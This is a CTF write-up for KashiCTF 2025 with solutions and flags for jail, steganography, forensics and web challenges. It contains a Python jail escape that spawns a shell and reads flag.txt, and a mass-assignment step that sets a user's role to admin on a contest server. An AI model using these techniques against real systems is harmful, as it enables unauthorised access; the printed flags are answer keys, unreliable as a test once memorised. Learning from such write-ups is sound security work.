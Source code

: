 # Misc

### Easy Jail 

![image](https://github.com/x03ee/CTF-Writeup/blob/main/2025/KashiCTF%202025/img/EasyJail.PNG)

```
breakpoint()
import os; os.system("sh")
cd / && cat flag.txt
```

### Easy Jail 2 

![image](https://github.com/x03ee/CTF-Writeup/blob/main/2025/KashiCTF%202025/img/EasyJail2.PNG)

```
breakpoint()
import os; os.system("sh")
cd / && cat flag.txt
```

### SNOWy Evening

![image](https://github.com/x03ee/CTF-Writeup/blob/main/2025/KashiCTF%202025/img/Snow.PNG)

`stegsnow -C -p "Aakash" poemm.txt`

output : https://pastebin.com/HVQfa14Z

https://mysterytoolbox.organisingchaos.com/Ciphers/cipher/Moo

`KashiCTF{Love_Hurts_5734b5f}`

### Self Destruct

![image](https://github.com/x03ee/CTF-Writeup/blob/main/2025/KashiCTF%202025/img/Destruct.PNG)

`grep -hnra fLaG 0.img`

`KashiCTF{rm_rf_no_preserve_root_Am_1_Right??_No_Err0rs_4ll0wed_Th0}`

### Final Game?

![image](https://github.com/x03ee/CTF-Writeup/blob/main/2025/KashiCTF%202025/img/final.PNG)

Exporting the chess and we can use https://incoherency.co.uk/chess-steg/ to decrypt the data.

`KashiCTF{Will_This_Be_My_Last_Game_e94fab41}`

### Game 2 - Wait

![image](https://github.com/x03ee/CTF-Writeup/blob/main/2025/KashiCTF%202025/img/Game2.PNG)

We identify coordnets  within the program, and we can create a script to decrypt them to potentialy form an image as the flag.

```py
import matplotlib
matplotlib.use('Agg')

import matplotlib.pyplot as plt

coordinates = [
    (232,128),(232,80),(232,96),(232,112),(232,144),(232,160),(232,176),(248,112),
    (265,103),(281,87),(248,128),(264,144),(272,160),(280,176),(343,120),(327,128),
    (319,144),(319,160),(327,176),(343,176),(359,176),(367,160),(367,144),(367,128),
    (359,120),(375,168),(391,176),(343,120),(327,128),(327,176),(343,176),(359,176),
    (367,160),(367,144),(367,128),(359,120),(375,168),(391,176),(335,376),(335,360),
    (335,344),(335,328),(335,312),(335,296),(351,328),(367,320),(375,304),(375,376),
    (415,376),(415,360),(415,344),(415,328),(415,312),(415,296),(431,312),(447,304),
    (463,296),(367,360),(351,344),(471,104),(455,104),(439,104),(423,112),(423,128),
    (423,144),(439,144),(455,144),(471,144),(471,160),(463,177),(455,177),(439,177),
    (423,177),(513,89),(513,121),(513,137),(513,153),(513,169),(513,177),(513,105),
    (529,145),(545,145),(553,153),(553,169),(553,177),(185,291),(185,323),(185,339),
    (185,355),(185,371),(185,379),(185,307),(201,347),(217,347),(225,355),(225,371),
    (225,379),(977,291),(977,323),(977,339),(977,355),(977,371),(977,379),(977,307),
    (993,347),(1009,347),(1017,355),(1017,371),(1017,379),(593,177),(593,161),
    (593,145),(593,129),(593,89),(693,84),(677,84),(661,84),(645,84),(629,84),
    (629,100),(629,116),(629,132),(629,148),(629,164),(629,180),(645,180),
    (661,180),(677,180),(693,180),(149,284),(133,284),(117,284),(101,284),
    (85,284),(85,300),(85,316),(85,332),(85,348),(85,364),(85,380),(101,380),
    (117,380),(133,380),(149,380),(733,84),(749,84),(765,84),(781,84),(797,84),
    (765,100),(765,116),(765,132),(765,148),(765,164),(765,180),(853,180),
    (853,164),(853,148),(853,132),(853,116),(853,100),(853,84),(869,84),
    (885,84),(901,84),(917,84),(869,124),(885,124),(901,124),(45,260),
    (29,276),(37,292),(37,308),(29,324),(13,340),(29,353),(37,369),
    (37,385),(29,400),(45,416),(1062,257),(1076,270),(1068,286),(1068,302),
    (1076,318),(1092,334),(1077,350),(1069,366),(1069,382),(1077,398),
    (1061,414),(301,336),(301,352),(301,368),(301,376),(301,320),
    (301,304),(285,344),(269,344),(253,344),(261,336),(269,320),
    (285,304),(301,288),(525,336),(525,352),(525,368),(525,376),
    (565,376),(581,376),(597,376),(613,376),(629,376),(717,376),
    (701,360),(693,344),(685,328),(677,312),(669,296),(661,280),
    (733,362),(741,346),(749,330),(757,314),(765,298),(773,282),
    (797,322),(805,338),(821,354),(837,346),(845,330),(851,318),
    (819,366),(811,382),(891,318),(891,334),(891,350),(891,366),
    (899,382),(915,382),(931,382),(939,374),(939,358),(939,342),
    (939,326),(939,318),(525,320),(525,304),(509,344),(493,344),
    (477,344),(485,336),(493,320),(509,304),(525,288)
]

x_vals, y_vals = zip(*coordinates)

plt.figure(figsize=(10, 6))
plt.scatter(x_vals, y_vals, s=2, color="black")

plt.gca().invert_yaxis()

plt.axis("equal")

plt.title("Extracted Vector-Based Image")

plt.savefig("output.png", dpi=300)
```

`KashiCTF{Ch4kr4_Vyuh}`

# Forensic

### Memories Bring Back You

![image](https://github.com/x03ee/CTF-Writeup/blob/main/2025/KashiCTF%202025/img/Mem.PNG)

`grep -ra "KashiCTF" <file location>`

```
�]h��D�A7���0x\K��dk��K��dk��K��dk��K��dk���`�`HK��dk��
image_410.jpg�H�@�
                  �t
                    �t
                      2�������yGFILE|H8`�`H�
                                            �dk���5�]h���5�]h��q�a���0x\�
                                                                         �dk���
                                                                               �dk���
                                                                                     �dk���
image_414.jpg�H�@�.cnc2��������yGFILE0xH8`�`H6��dk���^h��_h������_h���~n*���0x\6��dk��6��dk��6��dk��6��dk���.
                   �.
image_418.jpg�H�@�;yN;yNJ��ְ����J�GFILE02��������yGFILE0;pH8`�`Hh2�dk���(bh���(bh��B+���0x\h2�dk��h2�dk��h2�dk��h2�dk��pimage_419.jpg�H�@p+�f+�f+2�&������yGFILE0\�H8`�`H
                                                 F�dk����ch����ch����y���0x\
                                                                            F�dk��
                                                                                  F�dk��
                                                                                        F�dk��
image_421.jpg�H�@�(x�(x�(2�]��X8not_hidden.txtKashiCTF{DF1R_g03555_Brrrr}
```


`KashiCTF{DF1R_g03555_Brrrr}`

### Corruption

![image](https://github.com/x03ee/CTF-Writeup/blob/main/2025/KashiCTF%202025/img/curr.PNG)

using Autopsy we can search "KashiCTF" and we get the flag.


### Look at Me

![image](https://github.com/x03ee/CTF-Writeup/blob/main/2025/KashiCTF%202025/img/look.PNG)

Use silent eye and decrypt the image and get the flag.


# Web

### SuperFastAPI

![image](https://github.com/x03ee/CTF-Writeup/blob/main/2025/KashiCTF%202025/img/super.PNG)

`http://kashictf.iitbhucybersec.in:<port>/redoc` - Document of all the headers.

1. Create an account `http://kashictf.iitbhucybersec.in:<port>/create/test`

add 
```
{
"fname": "John",
"lname": "Doe",
"email": "john.doe@example.com",
"gender": "male"
}
```

2. Update the role since it asks for admin when changing register to flag.

`http://kashictf.iitbhucybersec.in:<port>/update/test`

include

```
{
  "role": "admin"
}
```

3. Head to `http://kashictf.iitbhucybersec.in:<port>/flag/test`

`{"message":"KashiCTF{m455_4551gnm3n7_ftw_SksZ90TZu}"}`
